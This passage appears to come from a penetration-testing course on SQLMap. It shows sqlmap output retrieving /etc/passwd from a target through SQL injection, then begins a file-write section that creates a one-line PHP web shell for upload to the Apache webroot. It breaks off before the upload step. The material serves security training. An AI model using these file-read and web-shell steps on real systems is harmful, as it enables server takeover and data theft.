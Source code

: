 ```shell-session
[17:40:07] [WARNING] unable to retrieve the content of the file '/etc/passwd', going to fall-back to simpler UNION technique
[17:40:07] [INFO] fetching file: '/etc/passwd'
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] y

[17:40:14] [INFO] the local file '~/.sqlmap/output/www.example.com/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (982 B)
files saved to [1]:
[*] ~/.sqlmap/output/www.example.com/files/_etc_passwd (same file)

[*] ending @ 17:40:14 /2020-11-19/
```

As we can see, SQLMap said `files saved` to a local file. We can `cat` the local file to see its content:


```shell-session
smoothment@htb[/htb]$ cat ~/.sqlmap/output/www.example.com/files/_etc_passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

We have successfully retrieved the remote file.

---

## Writing Local Files

When it comes to writing files to the hosting server, it becomes much more restricted in modern DMBSes, since we can utilize this to write a Web Shell on the remote server, and hence get code execution and take over the server.

This is why modern DBMSes disable file-write by default and need certain privileges for DBA's to be able to write files. For example, in MySql, the `--secure-file-priv` configuration must be manually disabled to allow writing data into local files using the `INTO OUTFILE` SQL query, in addition to any local access needed on the host server, like the privilege to write in the directory we need.

Still, many web applications require the ability for DBMSes to write data into files, so it is worth testing whether we can write files to the remote server. To do that with SQLMap, we can use the `--file-write` and `--file-dest` options. First, let's prepare a basic PHP web shell and write it into a `shell.php` file:

```shell-session
smoothment@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Now, let's attempt to write this file on the remote server, in the `/var/www/html/` directory, the default server webroot for Apache. If we didn't know the server webroot, we will see how SQLMap can automatically find it.
